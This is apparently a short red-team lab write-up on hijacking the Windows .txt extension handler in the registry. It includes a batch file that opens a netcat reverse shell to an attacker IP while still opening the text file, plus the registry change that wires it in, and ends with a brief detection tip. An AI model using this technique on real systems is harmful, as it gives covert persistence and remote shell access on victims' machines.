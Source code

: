 # Hijacking Default File Extension

When a .txt file is double clicked, it's opened with a notepad.exe. Windows knows that it needs to use notepad.exe for opening txt files, because the `.txt` extension \(among many others\) are mapped to applictions that can open those files in Windows registry located at `Computer\HKEY_CLASSES_ROOT`.

It's possible to hijack a file extension and make it execute a malicious application before the actual file is opened.

In this quick lab, I'm going to hijack the .txt extension - the victim user will still be able to open the original .txt file, but it will additionally fire a reverse shell back to the attacking system.

## Execution

The .txt extension handler is defined in the below registry key:

```erlang
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Below shows that the command responsible for opening .txt files is `notepad.exe %1`, where `%1` is the argument for notepad.exe, which specifies a file name the notepad should open:

![](../../.gitbook/assets/image%20%28111%29.png)

Say, a target user has the file test.exe on his desktop with the below file contents:

![](../../.gitbook/assets/image%20%28224%29.png)

Let's now create a malicious file that we want to be executed when the user attempts to open the benign file test.txt. For this lab, the malicious file is going to be a simple Windows batch file located in c:\tools\shell.cmd:

{% code title="c:\\tools\\shell.cmd" %}
```erlang
start C:\tools\nc.exe 10.0.0.5 443 -e C:\Windows\System32\cmd.exe
start notepad.exe %1
```
{% endcode %}

![](../../.gitbook/assets/image%20%28482%29.png)

Once executed, `c:\tools\hell.cmd` will launch a simple netcat reverse shell to the attacking system and also a notepad with the `test.txt` file as an argument.

We are now ready to hijack the .txt file extension by modifying the value data of `Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command` to `c:\tools\shell.cmd %1` as shown below:

![](../../.gitbook/assets/image%20%28429%29.png)

## Demo

Opening the test.txt file by double clikcing it opens the file itself, but a reverse shell is thrown to the attacking system as well:

![](../../.gitbook/assets/hijacked-extension.gif)

## Detection

Defenders may want to monitor registry for file extension command changes, especially if the data field contains binaries located in unusual places.

## References

{% embed url="https://attack.mitre.org/techniques/T1042/" caption="" %}

